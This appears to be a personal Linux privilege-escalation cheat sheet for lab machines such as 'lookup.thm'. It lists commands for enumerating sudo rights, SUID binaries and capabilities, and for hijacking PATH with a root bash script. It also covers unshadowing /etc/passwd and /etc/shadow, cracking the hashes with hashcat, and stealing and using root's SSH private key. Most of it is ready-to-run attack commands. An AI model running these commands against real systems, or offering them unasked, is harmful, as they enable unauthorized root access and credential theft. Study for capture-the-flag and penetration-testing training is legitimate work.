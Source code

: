 # Check what current user can run as sudo 
- `sudo -l`
- [gtfobins](https://gtfobins.github.io/)

# Find files that have SUID or SGID bits set.  
`find / -type f -perm -04000 -ls 2>/dev/null`

# Can we increase the privilege level of a process or binary with “Capabilities”? 
`getcap -r / 2>/dev/null`  

# Modify path? 
Add folders to PATH:  
```
export PATH=/tmp:$PATH
Create a root bash script: echo "/bin/bash" > thm
```

# Do we have access to /etc/password and /etc/shadow ? 

If we have write access, just create our own priv user, if not.

## hashcat the password hash? 

`unshadow /etc/passwd /etc/shadow > hashes.txt`

## Work out hash type e.g If it's $6$, it's SHA-512, $5$ is SHA-256, $1$ is MD5.
* https://hashcat.net/wiki/doku.php?id=example_hashes
* https://hashes.com/en/tools/hash_identifier
* https://www.kali.org/tools/hash-identifier/
## Run Hashcat (for SHA-512, mode 1800):

`hashcat -m 1800 hashes.txt wordlist.txt`

# Privilege Escalation tools
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
- LinEnum: https://github.com/rebootuser/LinEnum
- LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
- Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
- Linux Priv Checker: [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Steal root / users ssh key? 

/root/.ssh/id_rsa

make sure to change permission to 600 once we have it,
chmod 600 id_rsa

ssh -i id_rsa root@lookup.thm

# File search

Search for log and txt files with string e.g tyler
```
find / -type f \( -name "*.txt*" -o -name "*.log*" \) -exec timeout 10s grep -i 'tyler' {} + 2>/dev/null | more
```

# Upgrade to an interactive shell 

```
no tty present and no askpass program specified

python3 -c 'import pty; pty.spawn("/bin/bash")'

```